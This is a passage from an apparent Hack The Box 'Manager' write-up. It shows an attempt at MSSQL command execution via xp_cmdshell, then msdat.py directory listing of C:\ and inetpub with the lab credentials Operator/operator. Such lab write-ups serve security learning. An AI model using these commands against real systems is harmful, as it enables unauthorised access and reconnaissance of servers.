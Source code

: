 ![Untitled](assets/Manager/hashDC01.png)

We can try to Crack the hash with john the ripper or Hashcat in my case i try with John but that don’t work for me 🤧

Try to execute commande on the mssql shell : 

```bash
enable_xp_cmdshell

xp_cmdshell whoami
```

Oh no… we don’t have de the permission ! 

We can try to read and list file/Directory on the server if a tool name msdat.py 

[GitHub - quentinhardy/msdat: MSDAT: Microsoft SQL Database Attacking Tool](https://github.com/quentinhardy/msdat)

List the `C:\` Directory : `python3 msdat.py xpdirectory -s 10.10.11.236 -U Operator -P operator -D manager.htb --list-files 'C:\'`

![Untitled](assets/Manager/mssqlexploit.png)

Ok that have work lets found some information, We know that there is a website on the server, let’s look at the directory /inetpub/ : 

```bash
# enumerate /inetpub
python3 msdat.py xpdirectory -s 10.10.11.236 -U Operator -P operator -D manager.htb --list-files 'C:\inetpub\'

# enumerate /inetpub/wwwroot
python3 msdat.py xpdirectory -s 10.10.11.236 -U Operator -P operator -D manager.htb --list-files 'C:\inetpub\wwwroot'
```

![Untitled](assets/Manager/webdirectory.png)
